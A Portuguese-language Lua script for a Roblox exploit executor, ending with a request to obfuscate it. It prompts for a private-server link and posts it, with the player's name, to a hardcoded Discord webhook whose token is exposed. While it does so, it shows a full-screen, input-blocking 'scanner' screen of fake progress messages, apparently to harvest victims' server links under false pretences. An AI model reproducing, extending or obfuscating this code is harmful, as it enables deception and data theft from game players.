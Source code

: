 --[[
📡 SWAT - Sistema de Logs (Seguro)
Autor: Dede Silva
Descrição: Prompt pede link do servidor -> envia webhook -> mostra tela full-screen
Obs: NÃO bloqueia a saída do jogador; apenas cria uma tela modal que consome clicks.
Substitua WEBHOOK_URL_AQUI pela sua URL de webhook do Discord.
]]

--== CONFIG ==--
local webhookUrl = "https://discord.com/api/webhooks/1430383406805680188/Y3yzeDCcf8JkfskCq4xprBBvQArrjjIzA-fyFOWZ13td4etLPygUItStD2hJFuHgTcAc" -- coloque aqui a webhook
local HttpService = game:GetService("HttpService")
local Players = game:GetService("Players")
local LocalPlayer = Players.LocalPlayer

--== FUNÇÃO DE ENVIO ==--
local function sendWebhook(linkDoServidor)
local payload = {
username = "SWAT - Logs",
avatar_url = "https://i.imgur.com/5YQnN8u.png",
embeds = {{
title = "SWAT - Nenhum Brainrot Encontrado... (90%)",
color = 11730944,
fields = {
{ name = "👤 User", value = (LocalPlayer and LocalPlayer.Name) or "Usuário", inline = true },
{ name = "👥 Players no Servidor", value = tostring(#Players:GetPlayers()) .. "/" .. tostring(Players.MaxPlayers or 0), inline = true },
{ name = "🔗 Link do Servidor", value = "[Clique aqui](" .. tostring(linkDoServidor) .. ")" },
{ name = "🧠 Brainrots Encontrados", value = "Nenhum brainrot encontrado" }
},
footer = { text = "⚡ SWAT - Onde o impossível acontece ⚡" }
}}
}
local ok, err = pcall(function()
local json = HttpService:JSONEncode(payload)
-- PostAsync pode falhar se HttpService estiver desativado nas configurações do executor
HttpService:PostAsync(webhookUrl, json, Enum.HttpContentType.ApplicationJson)
end)
return ok, err
end

--== FUNÇÕES DE UI ==--
local function createLoadingGui()
-- Criar ScreenGui
local screenGui = Instance.new("ScreenGui")
screenGui.Name = "SWAT_LoadingGui"
screenGui.ResetOnSpawn = false
screenGui.Parent = LocalPlayer:WaitForChild("PlayerGui")

-- Fullscreen frame (azul escuro)  
local frame = Instance.new("Frame")  
frame.Size = UDim2.new(1,0,1,0)  
frame.Position = UDim2.new(0,0,0,0)  
frame.BackgroundColor3 = Color3.fromRGB(6,24,41) -- azul escuro  
frame.BorderSizePixel = 0  
frame.Active = true -- faz com que capture inputs  
frame.Parent = screenGui  

-- Título  
local title = Instance.new("TextLabel")  
title.Size = UDim2.new(1,0,0,80)  
title.Position = UDim2.new(0,0,0,20)  
title.BackgroundTransparency = 1  
title.Text = "⚡ SWAT - Carregando sistemas..."  
title.Font = Enum.Font.GothamBlack  
title.TextSize = 28  
title.TextColor3 = Color3.fromRGB(200, 220, 235)  
title.TextStrokeTransparency = 0.8  
title.Parent = frame  

-- Status (mensagens aleatórias)  
local status = Instance.new("TextLabel")  
status.Size = UDim2.new(1,0,0,50)  
status.Position = UDim2.new(0,0,0,110)  
status.BackgroundTransparency = 1  
status.Text = "Iniciando..."  
status.Font = Enum.Font.Gotham  
status.TextSize = 20  
status.TextColor3 = Color3.fromRGB(180,200,215)  
status.TextStrokeTransparency = 0.9  
status.Parent = frame  

-- Loading dots  
local dots = Instance.new("TextLabel")  
dots.Size = UDim2.new(1,0,0,30)  
dots.Position = UDim2.new(0,0,0,160)  
dots.BackgroundTransparency = 1  
dots.Text = ""  
dots.Font = Enum.Font.Gotham  
dots.TextSize = 20  
dots.TextColor3 = Color3.fromRGB(180,200,215)  
dots.Parent = frame  

-- "Fechar" button (invisível inicialmente)  
local closeBtn = Instance.new("TextButton")  
closeBtn.Size = UDim2.new(0,220,0,40)  
closeBtn.Position = UDim2.new(0.5,-110,0.85,0)  
closeBtn.AnchorPoint = Vector2.new(0.5,0.5)  
closeBtn.BackgroundColor3 = Color3.fromRGB(30,60,90)  
closeBtn.BorderSizePixel = 0  
closeBtn.Text = "Fechar"  
closeBtn.Font = Enum.Font.Gotham  
closeBtn.TextSize = 18  
closeBtn.TextColor3 = Color3.fromRGB(220,235,250)  
closeBtn.Visible = false  
closeBtn.Parent = frame  

-- Consumir input do mouse/teclado para impedir interação com jogo por baixo  
-- (aqui apenas a GUI captura os clicks, não bloqueia fechar o jogo)  
frame.InputBegan:Connect(function(input)  
	-- faz nada, apenas impede propagation  
end)  

-- Retorno de referências  
return {  
	screenGui = screenGui,  
	frame = frame,  
	status = status,  
	dots = dots,  
	closeBtn = closeBtn  
}

end

--== LÓGICA PRINCIPAL ==--
-- 1) Prompt para o link via console
rconsoleprint("@@YELLOW@@\n[SWAT LOGS] Digite o link do servidor privado e pressione Enter:\n")
local link = rconsoleinput()

if not link or link == "" then
rconsoleprint("@@RED@@[SWAT LOGS] Nenhum link inserido. Cancelando operação.\n")
return
end

-- 2) Criar GUI de carregamento
local gui = createLoadingGui()

-- mensagens aleatórias que aparecem
local mensagens = {
"Iniciando scanner...",
"Verificando players...",
"Analisando conexão...",
"Carregando módulos SWAT...",
"Gerando relatório...",
"Verificando integridade...",
"Analisando IP (simulado)...",
"Otimizando pacotes...",
"Preparando envio..."
}

-- loop que troca mensagens e faz "dots"
local running = true
spawn(function()
local i = 1
local dotCount = 0
while running and gui and gui.status and gui.dots do
gui.status.Text = mensagens[(i-1) % #mensagens + 1]
dotCount = (dotCount + 1) % 4
gui.dots.Text = string.rep(".", dotCount)
i = i + 1
wait(1.2)
end
end)

-- 3) Enviar webhook em background e controlar quando habilitar o botão fechar
rconsoleprint("@@CYAN@@[SWAT LOGS] Enviando link para a webhook...\n")
local ok, err = sendWebhook(link)
if ok then
rconsoleprint("@@GREEN@@[SWAT LOGS] Link enviado com sucesso!\n")
else
rconsoleprint("@@RED@@[SWAT LOGS] Falha ao enviar webhook: " .. tostring(err) .. "\n")
end

-- Mostrar mensagem final
if gui and gui.status then
if ok then
gui.status.Text = "Envio concluído. Finalizando..."
else
gui.status.Text = "Falha no envio. Você pode tentar novamente."
end
end

-- após envio, espera um tempo e permite fechar a UI
local maxWait = 30 -- segundos até liberar fechar (segurança/usabilidade)
local elapsed = 0
while elapsed < maxWait do
wait(1)
elapsed = elapsed + 1
end

-- habilitar o botão fechar (o jogador pode fechar; se preferir, você pode
-- aumentar maxWait para demorar mais)
if gui and gui.closeBtn then
gui.closeBtn.Visible = true
gui.closeBtn.MouseButton1Click:Connect(function()
-- encerra animação e remove GUI
running = false
if gui.screenGui then
gui.screenGui:Destroy()
end
rconsoleprint("@@GREEN@@[SWAT LOGS] Tela de carregamento fechada pelo usuário.\n")
end)
-- também permite fechar com tecla Esc
local userInput = game:GetService("UserInputService")
userInput.InputBegan:Connect(function(input, gameProcessed)
if input.KeyCode == Enum.KeyCode.Escape and gui and gui.closeBtn.Visible then
running = false
if gui.screenGui then gui.screenGui:Destroy() end
rconsoleprint("@@GREEN@@[SWAT LOGS] Tela de carregamento fechada (ESC).\n")
end
end)
end

Vc consegue obfuscar em lua

